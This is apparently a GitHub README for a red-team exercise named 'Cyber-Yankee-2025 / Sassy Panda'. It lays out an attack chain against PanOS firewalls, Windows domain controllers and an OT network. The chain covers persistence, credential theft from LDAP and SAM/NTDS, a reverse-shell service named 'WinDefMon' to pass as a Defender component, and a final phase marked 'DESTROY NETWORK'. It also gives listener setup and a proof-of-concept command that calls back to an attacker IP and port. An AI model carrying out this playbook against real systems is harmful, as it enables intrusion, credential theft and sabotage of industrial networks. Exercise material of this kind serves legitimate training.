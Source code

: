 # Cyber-Yankee-2025

### Sassy Panda

[Phase1](Phase1) - #PanOS Exploit

[Phase2](Phase2) - #PanOS Internal Reconnaissance & Enumeration

[Phase3](Phase3) - #PanOS Persistence

[Phase4](Phase4) - #PanOS proxy chains

---

[Phase5](Phase5) - #Discovery Inside Orange Space

[Phase6](Phase6) - #Credential Access (via LDAP, SAM/NTDS)


---

[Phase7](Phase7) - Lateral Movement and Persistence *DAY 3*

[Phase8](Phase8) - `WinDefMon` Reverse Shell Service on DC

[Phase9](Phase9) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK


# Steps

1. initial access - setup initial listener (netcat/metasploit) with your (ANY PORT)
2. setup callback listener 63842
3. run python Poc.py https://<IP> > <ATTACKER_IP> <ATTACKER_PORT>